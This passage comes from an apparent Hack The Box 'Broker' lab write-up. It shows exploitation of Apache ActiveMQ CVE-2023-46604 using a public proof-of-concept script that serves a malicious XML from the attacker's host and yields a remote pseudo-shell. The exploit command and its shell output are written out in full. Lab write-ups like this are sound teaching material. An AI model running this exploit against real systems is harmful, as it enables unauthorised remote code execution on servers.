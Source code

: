 ### Exploitation

Searching for ActiveMQ exploits I find: https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell

Which sends a malicious poc.xml to the target and gets us a pseudo shell.

First lets update the poc.xml file to our atticking IP:

![broker_xml.png](../assets/broker_assets/broker_xml.png)

Then we can run the exploit:
```
┌──(ryan㉿kali)-[~/HTB/Broker]
└─$ python exploit.py -i 10.10.11.243 -p 61616 -si 10.10.14.60 -sp 8080              
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.10.11.243:61616
[*] Serving XML at: http://10.10.14.60:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ ls
activemq
activemq-diag
activemq.jar
env
linux-x86-32
linux-x86-64
macosx
wrapper.jar

Apache ActiveMQ$ whoami
activemq

Apache ActiveMQ$ hostname
broker
```
